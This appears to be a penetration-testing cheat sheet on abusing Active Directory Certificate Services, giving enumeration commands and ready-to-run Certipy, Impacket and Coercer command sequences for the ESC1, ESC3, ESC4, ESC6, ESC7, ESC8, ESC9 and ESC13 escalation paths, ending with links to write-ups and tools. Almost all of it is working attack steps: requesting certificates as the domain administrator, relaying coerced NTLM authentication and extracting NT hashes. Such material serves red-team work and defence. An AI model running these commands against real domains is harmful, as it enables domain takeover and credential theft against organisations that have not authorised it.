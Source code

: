 # Attacks
- [ESC1](#esc1)
- [ESC3](#esc3)
- [ESC4](#esc4)
- [ESC6](#esc6)
- [ESC7](#esc7)
- [ESC8](#esc8)
- [ESC9](#esc9)
- [ESC13](#esc13)

# Enumeration
### NetExec
Find PKI Enrollment Services in Active Directory and Certificate Templates Names
```
nxc ldap ip -u username -p password -M adcs
```
### Certipy
Search for vulnerable certificate templates
```
certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```
List CAs, servers and search for vulnerable certificate templates
```
certipy find -u username -p password -dc-ip ip -dns-tcp -ns ip -debug
```
### Certify
Search for vulnerable certificate templates
```powershell
Certify.exe find /vulnerable
```
# Attacks
## ESC1
Create a new machine account
```
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
```
Use ability to enroll as a normal user & provide a user defined Subject Alternative Name (SAN)
```
certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator@domain -dns domain -dc-ip ip
```
Or
```
certipy req -u username -p password -ca ca -target domain -template template -upn administrator@domain -dns domain -dc-ip ip
```
Authenticate with the certificate and get the NT hash of the Administrator
```
certipy auth -pfx pfx_file -domain domain -username username -dc-ip ip
```
## ESC3
Request a certificate
```
certipy req -username username -password password -ca ca -target domain -template template
```
Request a certificate on behalf of other another user
```
certipy req username -password password -ca ca -target domain -template User -on-behalf-of 'domain\administrator' -pfx pfx_file
```
Authenticate as Administrator
```
certipy auth -pfx administrator.pfx -dc-ip ip
```
## ESC4
```
certipy template -username username -password password -template template -save-old -dc-ip ip
```
```
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator@domain
```
```
certipy auth -pfx administrator.pfx -domain domain -username administrator -dc-ip ip
```
## ESC6
```
certipy req -username administrator@domain -password password -ca ca -target domain -template template -upn administrator@domain
```
## ESC7
In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.
If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.
```
certipy ca -ca ca -add-officer username -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
```
Enable the `SubCA` template on the CA using the `-enable-template` parameter. By default, the `SubCA` template is enabled.
```
certipy ca -ca ca -enable-template SubCA -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
```
This request will be denied, but we will save the private key and note down the request ID.
```
certipy req -username username@domain -password password -ca ca -target ip -template SubCA -upn username@domain
```
With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.
```
certipy ca -ca ca -issue-request request_ID -username username@domain -password password
```
And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.
```
certipy req -username username@domain -password password -ca ca -target ip -retrieve request_ID
```
Authenticate with the certificate and get the NT hash of the Administrator
```
certipy auth -pfx pfx_file -domain domain -username username -dc-ip ip
```
## ESC8
If there is an ADCS Server that is not on the DC and has Web Enrollement activated we might be able to exploit ESC8.
```
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
```
```
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
```
```
certipy- auth -pfx administrator.pfx
```
## ESC9
```
certipy shadow auto -username username@domain -hashes :hash -account target_username
```
```
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
```
```
certipy req -username target_username@domain -hashes :target_hash -ca ca -template template -target $DC_IP
```
```
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
```
```
certipy auth -pfx administrator.pfx -domain domain
```
## ESC13
```
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip -key-size 4096
```
```
python3 gettgtpkinit.py -cert-pfx pfx_file domain/username ccache_file -dc-ip ip -v
```
# Resources
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
- https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration
- https://vulndev.io/2023/07/01/vl-intercept-walkthrough/
- https://www.bulletproof.co.uk/blog/abusing-esc13-from-linux
- https://logan-goins.com/2024-05-04-ADCS/
- https://www.tarlogic.com/blog/ad-cs-esc7-attack/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-3/
- https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/
# Tools
- https://github.com/ly4k/Certipy
- https://github.com/GhostPack/Certify

